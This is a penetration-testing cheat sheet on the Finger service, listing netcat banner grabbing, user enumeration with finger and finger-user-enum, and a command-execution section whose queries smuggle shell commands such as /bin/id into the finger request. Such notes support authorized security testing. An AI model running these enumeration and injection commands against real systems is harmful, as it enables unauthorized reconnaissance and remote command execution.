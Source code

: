 - - -
**Finger** is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.
- - -
### Banner Grabbing/Basic connection : 

```sh
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

##### User Enumeration : 

```sh
finger @<Victim>                                   #List users
finger admin@<Victim>                              #Get info of user
finger user@<Victim>                               #Get info of user
```

#### Using **finger-user-enum** from [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) : 

```sh
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

- - -
### Try Command execution :

```sh
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

- - -








